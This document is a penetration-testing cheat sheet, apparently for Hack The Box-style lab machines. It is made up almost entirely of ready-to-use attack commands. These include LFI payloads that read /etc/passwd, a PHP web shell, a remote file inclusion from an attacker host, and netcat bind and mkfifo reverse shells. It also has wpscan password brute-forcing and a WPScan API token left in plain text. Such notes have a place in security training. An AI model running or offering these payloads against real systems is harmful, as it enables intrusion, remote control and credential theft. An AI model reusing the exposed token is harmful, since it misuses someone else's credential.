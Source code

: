 ```bash
curl -s http://192.168.120.132:8000/ | html2markdown

# curl
## -v,
## -x,
## -k, 
curl -v -X OPTIONS http://<targetip>/test/
curl --upload-file <file name> -v --url <url> -0 --http1.0

## grab links
curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# LFI
## PHP Wrapper
## payload all the things, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
php://filter/convert.base64-encode/resource=index.php
## Null Byte
?page=../../../../../../etc/passwd%00
## Inject code execution
<?php echo system($_REQUEST["cmd"]);?>

## Go to LFI vuln and
?=…….&cmd=ls

# RFI
?page=http://attackerserver.com/evil.txt
#Connect via netcat to victim (nc -nv <[IP]> <[PORT]>) and send 
<?php echo shell_exec("nc.exe -nlvp 4444 -C:\Windows\System32\cmd.exe");?>
# on kali call the shell
nc -nv ip 4444

# Command Execution
<?php system('ls -la');?>
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attackerip> 1234 >/tmp/f');?>

# SQL Injection (manual)
## bypass login/ update pwd
## extract data
## RCE


# wordpress
## wps scan
## -U, --username list
## -P, --password list
## --disable-tls-checks
## -e, enum, vp/ap/p/u/at/m
## -o, --output file
## --api-token
## --plugins-detection passive/aggressive/mixed
## --wp-content-dir 
## --wp-plugins-dir
wpscan --url https://brainfuck.htb --api-token eHmdOsNYBMMTmCxORyxOKVa5MZnegduDGRkGemtaFgo --disable-tls-checks --usernames wpuser.txt --passwords /usr/share/wordlists/rockyou.txt
## detect mode if no plugins found.
wpscan --url http://blocky.htb --plugins-detection aggressive -- wp-content-dir wp-content --api-token eHmdOsNYBMMTmCxORyxOKVa5MZnegduDGRkGemtaFgo -e ap,at,u,cb

```
